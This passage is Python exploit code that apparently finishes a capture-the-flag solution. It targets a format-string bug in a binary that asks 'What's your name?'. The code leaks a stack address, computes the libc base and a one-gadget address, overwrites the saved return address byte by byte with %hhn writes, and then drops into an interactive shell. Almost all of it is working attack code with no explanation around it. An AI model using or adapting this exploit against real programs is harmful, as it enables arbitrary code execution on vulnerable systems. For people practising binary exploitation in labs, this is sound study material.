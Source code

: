 ```python

lb = leak - main
og = lb + og_list[0]

move()
payload = '%10$p'
p.sendlineafter("What's your name?", payload)
p.recvuntil('=======================\n')

ret = int(p.recvuntil(b'\n')[:-1],16) - 0xd8

slog('libc_base', lb)
slog('one-gadget', og)
slog('ret', ret)

move()
payload = b'%' + bytes(str(int((hex(og)[12:]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[10:12]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 1)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[8:10]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 2)
p.sendlineafter(b'name? ',payload)

move()
payload = b'%' + bytes(str(int((hex(og)[6:8]),16)),'utf-8') + b'c%8$hhn'
payload += b'A' * (8 - len(payload) % 8)
payload += p64(ret + 3)
p.sendlineafter(b'name? ',payload)

p.interactive()
```